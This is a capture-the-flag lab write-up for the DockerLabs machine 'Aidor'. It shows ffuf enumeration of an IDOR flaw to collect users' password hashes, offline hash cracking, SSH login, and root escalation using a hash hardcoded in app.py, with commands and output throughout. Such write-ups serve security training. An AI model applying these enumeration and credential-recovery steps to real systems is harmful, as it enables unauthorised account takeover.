



# Aidor

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Aidor | El Pingüino de Mario | easy / facil | dockerlabs |

**Summary:** The Aidor machine exposed a Flask web application on port 5000 that suffered from an Insecure Direct Object Reference (IDOR) vulnerability on the `/dashboard` endpoint. By enumerating the `id` parameter from 3 to 56 using ffuf with a valid session cookie, the attacker was able to view the profile pages of all registered users, each of which exposed the account's SHA-256 password hash in plaintext within the HTML source. The user `aidor`, sharing its name with the machine itself, was identified as a high-priority target. After cracking the recovered hash with hashcat against the rockyou wordlist, SSH access was obtained as that user. Post-exploitation enumeration of the filesystem revealed that the Flask application source file `app.py` was stored world-readable at `/home/app.py` and contained a commented-out database initialisation block that included the root account's MD5 password hash. Cracking that hash yielded the root plaintext password, which was then used to escalate privileges to root via `su`, completing the full compromise of the machine.

---

## Reconnaissance

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh aidor.tar      
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

A full TCP port scan was then conducted against the target.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-23 11:19 WIB
Nmap scan report for internal.dl (172.17.0.2)
Host is up (0.000022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.13.5)
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Werkzeug/3.1.3 Python/3.13.5
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.36 seconds
```

The scan identified two open ports: SSH on port 22 and a Python Werkzeug HTTP server on port 5000, whose title "Iniciar Sesión" (Login) indicated a Flask web application with an authentication page.

---

## Vulnerability Discovery: IDOR on the Dashboard

After authenticating to the web application and obtaining a valid session cookie, the `/dashboard` endpoint was found to accept a numeric `id` parameter. This pattern is a classic indicator of an Insecure Direct Object Reference vulnerability. A numeric wordlist was generated and ffuf was used to enumerate all valid user IDs, filtering out the baseline unauthenticated response size of 189 bytes.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ seq 1 100 > ids.txt 
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ ffuf -u "http://$ip:5000/dashboard?id=FUZZ" -w ids.txt -H "Cookie: session=eyJ1c2VyX2lkIjo1Nn0.amGbBA.Vq1mONESOW5sbVwVddcS3ni--Ww" -fs 189

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2:5000/dashboard?id=FUZZ
 :: Wordlist         : FUZZ: /mnt/d/dockerlabs-writeups/ids.txt
 :: Header           : Cookie: session=eyJ1c2VyX2lkIjo1Nn0.amGbBA.Vq1mONESOW5sbVwVddcS3ni--Ww
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 189
________________________________________________

4                       [Status: 200, Size: 23538, Words: 9427, Lines: 746, Duration: 53ms]
5                       [Status: 200, Size: 23538, Words: 9427, Lines: 746, Duration: 55ms]
40                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 65ms]
23                      [Status: 200, Size: 23552, Words: 9427, Lines: 746, Duration: 72ms]
3                       [Status: 200, Size: 23532, Words: 9427, Lines: 746, Duration: 92ms]
32                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 91ms]
6                       [Status: 200, Size: 23538, Words: 9427, Lines: 746, Duration: 94ms]
24                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 95ms]
25                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 116ms]
37                      [Status: 200, Size: 23552, Words: 9427, Lines: 746, Duration: 104ms]
26                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 128ms]
27                      [Status: 200, Size: 23471, Words: 9427, Lines: 746, Duration: 136ms]
28                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 145ms]
31                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 163ms]
7                       [Status: 200, Size: 23544, Words: 9427, Lines: 746, Duration: 165ms]
29                      [Status: 200, Size: 23552, Words: 9427, Lines: 746, Duration: 175ms]
30                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 167ms]
8                       [Status: 200, Size: 23544, Words: 9427, Lines: 746, Duration: 187ms]
9                       [Status: 200, Size: 23550, Words: 9427, Lines: 746, Duration: 199ms]
11                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 205ms]
10                      [Status: 200, Size: 23537, Words: 9427, Lines: 746, Duration: 210ms]
33                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 219ms]
13                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 223ms]
12                      [Status: 200, Size: 23549, Words: 9427, Lines: 746, Duration: 225ms]
14                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 231ms]
15                      [Status: 200, Size: 23555, Words: 9427, Lines: 746, Duration: 236ms]
38                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 239ms]
39                      [Status: 200, Size: 23534, Words: 9427, Lines: 746, Duration: 246ms]
16                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 255ms]
17                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 257ms]
19                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 271ms]
18                      [Status: 200, Size: 23537, Words: 9427, Lines: 746, Duration: 274ms]
20                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 293ms]
35                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 302ms]
21                      [Status: 200, Size: 23555, Words: 9427, Lines: 746, Duration: 305ms]
36                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 309ms]
34                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 317ms]
22                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 319ms]
41                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 330ms]
42                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 319ms]
45                      [Status: 200, Size: 23537, Words: 9427, Lines: 746, Duration: 313ms]
43                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 350ms]
44                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 357ms]
48                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 321ms]
47                      [Status: 200, Size: 23540, Words: 9427, Lines: 746, Duration: 339ms]
46                      [Status: 200, Size: 23543, Words: 9427, Lines: 746, Duration: 342ms]
49                      [Status: 200, Size: 23546, Words: 9427, Lines: 746, Duration: 322ms]
51                      [Status: 200, Size: 23537, Words: 9427, Lines: 746, Duration: 336ms]
50                      [Status: 200, Size: 23555, Words: 9427, Lines: 746, Duration: 321ms]
52                      [Status: 200, Size: 23516, Words: 9427, Lines: 746, Duration: 319ms]
53                      [Status: 200, Size: 23512, Words: 9427, Lines: 746, Duration: 330ms]
55                      [Status: 200, Size: 23513, Words: 9427, Lines: 746, Duration: 328ms]
54                      [Status: 200, Size: 23516, Words: 9427, Lines: 746, Duration: 338ms]
56                      [Status: 200, Size: 23507, Words: 9427, Lines: 746, Duration: 328ms]
:: Progress: [100/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

The enumeration revealed 54 valid user IDs ranging from 3 to 56. Each dashboard page exposed the authenticated user's profile information along with their SHA-256 password hash rendered directly in the HTML. Upon reviewing the discovered accounts, the user `aidor` immediately stood out as a high-priority target due to sharing its name with the machine itself.



---

## Initial Access

### Credential Recovery and Hash Cracking

The SHA-256 hash extracted from the `aidor` account's dashboard page via the IDOR vulnerability was submitted to hashcat for offline cracking against the rockyou wordlist.



With the plaintext password recovered, SSH access was established as the user `aidor`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ ssh aidor@$ip
aidor@172.17.0.2's password: 
Linux bbc422d628fb 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 23 04:52:07 2026 from 172.17.0.1
aidor@bbc422d628fb:~$ ls -la /home
total 52
drwxr-xr-x 1 root  root   4096 Jul 23 04:35 .
drwxr-xr-x 1 root  root   4096 Jul 23 04:19 ..
drwx------ 1 aidor aidor  4096 Jul 23 05:25 aidor
-rw-r--r-- 1 root  root   4862 Nov 17  2025 app.py
-rw-r--r-- 1 root  root  24576 Jul 23 04:35 database.db
drwxr-xr-x 2 root  root   4096 Nov 17  2025 templates
```

---

## Privilege Escalation

### Source Code Analysis: Hardcoded Root Credential

Inspection of the `/home` directory revealed that the Flask application source file `app.py` was stored world-readable at that path. Reading its contents exposed a commented-out database initialisation block containing the root account's MD5 password hash in plaintext.

```bash
aidor@bbc422d628fb:~$ cat /home/app.py 
from flask import Flask, render_template, request, redirect, url_for, session, flash
import sqlite3
import hashlib
import os

app = Flask(__name__)
app.secret_key = 'my_secret_key'

# Ruta para conectar a la base de datos
def get_db():
    conn = sqlite3.connect('database.db')
    return conn

# Crear la base de datos y la tabla si no existen
def create_db():
    if not os.path.exists('database.db'):
        conn = get_db()
        cursor = conn.cursor()
        # Crear la tabla de usuarios si no existe
        cursor.execute('''
        CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            username TEXT NOT NULL UNIQUE,
            password TEXT NOT NULL,
            email TEXT NOT NULL
        )
        ''')
        # Insertar un usuario de ejemplo si la tabla está vacía
        cursor.execute('SELECT COUNT(*) FROM users')
        count = cursor.fetchone()[0]
        # if count == 0:
        #     cursor.execute('''
        #     INSERT INTO users (username, password, email) VALUES
        #     ('root', 'aa87ddc5b4c24406d26ddad771ef44b0', 'admin@example.com')
        #     ''')  # La contraseña "admin" es hash SHA-256
        conn.commit()
        conn.close()
...
```

The hash `aa87ddc5b4c24406d26ddad771ef44b0` embedded in the commented code block was cracked to recover the root password.



### Root Shell

With the root password in hand, privilege escalation was achieved via `su`.

```bash
aidor@bbc422d628fb:~$ su - root
Password: 
root@bbc422d628fb:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
bbc422d628fb
```

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified two open services: OpenSSH on port 22 and a Python Werkzeug Flask application on port 5000 presenting a login page.
2. **Vulnerability Discovery**: After authenticating to the Flask application, the `/dashboard?id=` parameter was identified as vulnerable to IDOR. ffuf enumerated IDs 3 through 56, confirming that any authenticated session could access any other user's profile page, including their exposed SHA-256 password hash.
3. **Exploitation**: The user `aidor` was prioritised as a target due to its name matching the machine name. Its SHA-256 hash was extracted via the IDOR vulnerability and cracked offline using hashcat against the rockyou wordlist.
4. **Internal Enumeration**: After SSH login as `aidor`, the `/home` directory was found to contain the Flask application source file `app.py`, readable by all users. The source code contained a commented-out SQL insert statement embedding the root account's MD5 password hash.
5. **Privilege Escalation**: The MD5 hash from the commented code block was cracked to recover the root plaintext password. The credential was used with `su` to escalate directly to a root shell, completing the full compromise.
